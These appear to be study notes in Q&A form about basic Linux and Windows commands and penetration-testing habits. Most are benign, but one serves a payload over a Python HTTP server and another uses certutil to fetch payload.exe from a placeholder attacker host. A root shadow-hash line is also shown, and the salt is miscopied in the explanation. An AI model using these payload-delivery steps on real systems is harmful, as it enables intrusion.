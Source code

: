 1) What is that command ? 
- use ``whatis`` command to find out - ``whatis nslookup``

2) How to open host file in Linux ?
```
sudo nano /etc/hosts
```

3) What is a host file tho ?
- It contains the list of hostnames and Domain names and their corresponding IP addresses. 
- U can make changes in the host file to map an IP address to a local domain. (Cannot be accessed by the internet). 
```
192.168.0.1 router.admin
```

4) Extract files using `gzip` and `tar`
```
gzip -d file.gz
```

```
tar -xf file.tar.gz
```

5) What's `curl` ?
`curl`: This is a command-line tool used to transfer data to or from a server using various network protocols, such as HTTP, HTTPS, FTP, etc.

6) What's `more` ?
`more` prints one page at a time in the terminal if the output text is too long. For example, we can pipe the curl command through `more` to show the result in a more concise manner. 

```
curl <ip> | more
```

7) Explain salted password hashing
A "salt" in the context of password hashing is a random value that is generated and combined with a user's password before hashing it. The primary purpose of a salt is to add uniqueness and complexity to the password hashing process.

```
root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
```

- In this example, `eo0I5IAu` is the unique salt.
- `$6$` prefix indicates the hashing algorithm, in this case SHA-512.

8) How to host a Python `http` server to host a payload ?

```
python -m SimpleHTTPServer 80
```

9) How to download a file from a remote server using CMD on Windows ?

```
certutil -urlcache -f http://<lhost>/payload.exe payload.exe
```

10) How to count the number of lines in the output of a command ?
```
<command-of-a-tool> | wc -l
```

11) How to copy a file from a different location to the current working directory ?
```
cp /path/to/file . 
```
